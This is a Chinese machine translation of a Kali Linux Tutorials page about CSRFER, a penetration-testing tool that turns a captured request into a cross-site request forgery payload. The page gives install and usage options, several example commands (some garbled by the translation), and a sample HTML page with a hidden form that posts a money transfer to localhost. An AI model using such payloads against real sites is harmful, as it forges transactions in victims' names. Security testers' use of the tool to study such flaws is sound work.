

# CSRFER:基于易受攻击的请求生成 CSRF 有效负载的工具

> 原文：<https://kalilinuxtutorials.com/csrfer/>

[](https://1.bp.blogspot.com/-F1O-U9b7FZE/X4gjj9WNvfI/AAAAAAAAHyw/wkLYg2oDvmwfB-J2qyc2A2DngxNvYrvtwCLcBGAsYHQ/s728/CSRFER%25281%2529.png)

CSRFER 是一个基于易受攻击的请求生成 csrf 有效负载的工具。它解析提供的请求以生成表单或获取请求。然后，可以将有效负载嵌入到 html 模板中。

**安装**

**npm install -g csrfer**

**用途**

**用法:** csrfer【选项】

**选项:**
–版本显示版本号
-r，–要使用的请求文件的请求路径
-m，–Mode 模式生成代码。可用选项:表单、获取。(默认为 form)
-a，–Auto submit 页面加载时自动提交请求
-s，–Show 显示表单输入(仅适用于表单模式)
-o，–Output 将有效负载输出到指定文件，而不是 STDOUT
-t，–html 模板页面的模板路径。使用占位符{{CONTENT}}指定
插入代码的位置(以 html 格式，而不是 JS 格式)
-T，–default template 如果您希望将代码插入默认 html 页面，请使用此选项。
-h，–help Show help

**示例:**
CSR fer-r req . txt-m form-a 自动提交表单请求
csrfer -r req.txt -m form -s 生成并显示要手动提交的表单
CSR fer-r req . txt-m fetch-t my _ template . html 生成一个获取请求并使用提供的模板
页面

**示例输出**

```
<!DOCTYPE html>
<html>

<head>
  <title>This is Hello World page</title>
</head>

<body>
  <h1>Hello World</h1>

  <form id="csrf" name="csrf" action="http://localhost:8000/1.php" method="POST"
    enctype="application/x-www-form-urlencoded"><input id='destination' name='destination' type='hidden'
      value='123-123123-123' /><br><input id='amount' name='amount' type='hidden' value='50&#x20AC;' /><br><input
      type='submit' value='submit'></form>
</body>

</html>
```

[**Download**](https://github.com/luisfontes19/CSRFER)